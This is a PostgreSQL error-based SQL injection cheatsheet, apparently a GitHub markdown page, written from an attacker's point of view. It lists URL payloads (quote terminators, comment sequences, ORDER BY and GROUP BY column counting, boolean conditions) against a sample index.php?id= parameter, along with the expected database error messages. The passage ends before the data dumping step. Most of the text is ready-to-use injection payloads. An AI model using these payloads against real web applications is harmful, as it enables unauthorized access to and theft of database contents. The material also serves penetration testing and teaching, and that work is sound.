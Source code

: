 # PostgreSQL Error Based SQL Injection Cheatsheet
This is probably the easiest vulnerability along the SQL Injection attack. An attacker can enumerate and dump the PostgreSQL database by using the SQL error messages to his advantage.

## Detecting the vulnerability

```http://domain.com/index.php?id=1 ```  
Website loads normally

```http://domain.com/index.php?id=1'```  
Error shows up: pg_query(): ```Query failed: ERROR: unterminated quoted string at or near...```

```http://domain.com/index.php?id=1\'```  
Error message shows up again

```http://domain.com/index.php?id=-1)'```  
Error message shows up again

```http://domain.com/index.php?id=1'--```  
Website might loads successfuly, but it might shows error also

```http://domain.com/index.php?id=1'--```  
Website might loads successfuly, but it might shows error also

```http://domain.com/index.php?id=1+--```  
Website might loads successfuly, but it might shows error also

## Retrieving information from database (UNION based query)
### Find the number of columns using 'ORDER BY' query

Now that we performed an SQL syntax error to the website, we can begin fuzzing and finding how many columns do we have by using **ORDER BY** query.

```http://domain.com/index.php?id=1' order by 1--```  
This query musn't shows up error, since there is no lower number than 1

  - If the payload shows up error, try setting a negative value:
  ```http://domain.com/index.php?id=-1' order by 1--```  
  This query musn't shows up error, since there is no lower number than 1  
  
    - If the payload shows up error, try removing the quote which might cause SQL error:   
    ```http://domain.com/index.php?id=1 order by 1--```  
    ```http://domain.com/index.php?id=-1 order by 1--```  
    These both queries musn't shows up error.
    
    - If none of payload's didn't work, try the following one:  
    ```http://domain.com/index.php?id=1 GROUP BY 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58,59,60,61,62,63,64,65,66,67,68,69,70,71,72,73,74,75,76,77,78,79,80,81,82,83,84,85,86,87,88,89,90,91,92,93,94,95,96,97,98,99,100```
    
    - The last option is to use a Boolean based payload:  
    ```http://domain.com/index.php?id=1 and true order by 1-- -```  
    The given query musn't show up error.
    
    Look at the error and search which number reflects.  
    
    Example:  
    >Query failed: ERROR: the position **4** in GROUP_BY...   
    
    From the error message, the 4th column is being reflected, which means we can dump that. Now move to the next step.
    
```